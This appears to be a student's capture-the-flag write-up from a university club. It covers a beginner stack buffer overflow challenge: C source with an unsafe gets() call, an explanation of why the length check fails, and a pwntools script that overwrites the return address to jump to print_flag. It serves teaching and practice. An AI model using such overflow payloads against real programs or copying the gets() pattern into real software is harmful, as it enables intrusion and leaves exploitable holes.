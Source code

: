 # pwn_gang fall 2024

After every Wednesday cyber meeting this quarter, a group of us would go to Olympic Hall to work on pwn challenges after dinner. As someone who isn't super familiar with pwn (web is definitely my main category), I thought it would be a great opportunity to learn something new and spend more time with the people in my club! Here one of the fundamental challenges I worked through in pwn gang.

## cat

This challenge provided the following source code

```
#include <stdio.h>
#include <string.h>

void print_flag(void) {
  FILE *flag_file = fopen("flag.txt", "r");
  char flag[256];
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
  fclose(flag_file);
}

int main(void) {
  setbuf(stdout, NULL);
  char buf[256];
  while (1) {
    gets(buf);
    if (strlen(buf) >= 256) {
      puts("no buffer overflows allowed");
      break;
    }
    puts(buf);
  }
}
```

Seeing the gets function automatically made me think this was a buffer overflow challenge. At first glance, I thought a buffer overflow wouldn't be possible because it checks the length of our input. However, this input checking isn't actually effective in preventing a buffer overflow. 

The way a buffer overflow works is the following. There is a buffer of a certain size allocated on the stack for the user's input, but there aren't any effective checks to make sure the input actually fits in that buffer. If the input is longer, it can overflow the buffer and overwrite other things on the stack. The return address is located on the stack, so we can craft a payload that overflows the buffer and overwrites the return address, so we can force the program to jump to the print_flag function.

The following was my pwntools script to perform this buffer overflow

```
#!/usr/bin/env python3
from pwn import *

# specify the process we are attacking
exe = ELF("./cat")

r = process([exe.path])

r = remote("box.acmcyber.com", 31338)

# get the address of the print_flag function
print_flag = exe.symbols["print_flag"]
print(print_flag)

# overflow the buffer and overwrite the return address with the address of the print_flag function


# what does p64 do? Send as raw bytes? Endianness?

# why is this 264 instead of 256? 256+8 = 264, so I'm thinking we wrote over another address or something
    # overwriting another return address pushed on the stack 

payload = b"A" * 264 + p64(print_flag)

r.sendline(payload)

r.interactive()
```

Running this python script returns the flag cyber{meow}
